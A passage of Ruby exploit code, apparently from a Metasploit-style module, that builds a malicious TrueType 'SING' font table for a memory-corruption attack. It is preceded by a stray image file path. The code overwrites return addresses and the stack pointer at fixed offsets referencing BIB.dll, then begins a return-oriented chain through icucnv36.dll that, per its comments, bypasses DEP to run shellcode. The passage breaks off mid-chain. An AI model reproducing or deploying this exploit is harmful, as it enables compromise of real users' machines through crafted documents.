 			# uniqueName
			# "The uniqueName string must be a string of at most 27 7-bit ASCII characters"
			#sing << "A" * (0x254 - sing.length)
			sing << rand_text(0x254 - sing.length)
	 
			# 0xffffffff gets written here @ 0x7001400 (in BIB.dll)
			sing[0x140, 4] = [0x4a8a08e2 - 0x1c].pack('V')
	 
			# This becomes our new EIP (puts esp to stack buffer)
			ret = 0x4a80cb38 # add ebp, 0x794 / leave / ret
			sing[0x208, 4] = [ret].pack('V')
	 
			# This becomes the new eip after the first return
			ret = 0x4a82a714
			sing[0x18, 4] = [ret].pack('V')
	 
			# This becomes the new esp after the first return
			esp = 0x0c0c0c0c
			sing[0x1c, 4] = [esp].pack('V')
	 
			# Without the following, sub_801ba57 returns 0.
			sing[0x24c, 4] = [0x6c].pack('V')
	 
			ttf_data[0xec, 4] = "SING"
			ttf_data[0x11c, sing.length] = sing
	 
			ttf_data
		end
	 
		def make_js(encoded_payload)
	 
			# The following executes a ret2lib using icucnv36.dll
			# The effect is to bypass DEP and execute the shellcode in an indirect way
			stack_data = [
				0x41414141,   # unused
				0x4a8063a5,   # pop ecx / ret
				0x4a8a0000,   # becomes ecx
	 
				0x4a802196,   # mov [ecx],eax / ret # save whatever eax starts as
	 